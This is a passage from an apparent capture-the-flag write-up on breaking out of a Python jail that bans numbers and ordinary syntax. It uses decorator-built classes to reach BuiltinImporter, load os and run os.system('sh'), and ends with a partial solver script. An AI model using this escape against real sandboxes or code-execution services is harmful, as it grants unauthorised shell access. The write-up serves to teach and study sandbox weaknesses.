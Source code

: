 Let's run the used Python version locally and find that `BuiltinImporter` class is located at the offset 84. Then we need to use a function `type.__getitem__` of the list `type` and pass the number 84 there. But usage of numbers is banned, so we need to create it somehow. We know that `method_name.__class__` is a `<class 'str'>`, then `method_name.__class__.__sizeof__` is a method of string class returning the size of internal structure inside the CPython memory. We won't dive into the CPython internals, just notice that the structure of 35-length string has a size 84. Therefore we need to create the string of such length and call the methods:

```python
@type.__getitem__
@method_name.__class__.__sizeof__
class offset_xxxxxxxxxxxxxxxxxxxxxxxxxxxx:
    pass
```

Now the variable `offset_xxxxxxxxxxxxxxxxxxxxxxxxxxxx` contains the class `BuiltinImporter`.

## Import `os` and call `os.system('sh')`

The class `BuiltinImporter` has the method `load_module`, which accepts the module name as its first argument. The next steps are trivial: we need to create a string `'os'`, call `BuiltinImporter.load_module` on this string, then create a string `'sh'` and call `os.system()`. We need two classes:

```python
@offset_xxxxxxxxxxxxxxxxxxxxxxxxxxxx.load_module
class os:
    pass
```

Now the variable `os` contains the module `os`.

```python
@os.system
class sh:
    pass
```

At this moment we will spawn the shell.

## Example solver

```python
__build_class__: ...

for method_name in __annotations__:
    pass

for __builtins__[method_name] in [__builtins__.get]:
    pass

for object_type in [method_name.__class__.__base__]:
    pass

for __builtins__[object_type.__class__.__name__] in [object_type]:
    pass

@object_type.__class__.__subclasses__
@__builtins__.get
class type:
    pass

@type.__getitem__
@method_name.__class__.__sizeof__
class offset_xxxxxxxxxxxxxxxxxxxxxxxxxxxx:
    pass

@offset_xxxxxxxxxxxxxxxxxxxxxxxxxxxx.load_module
```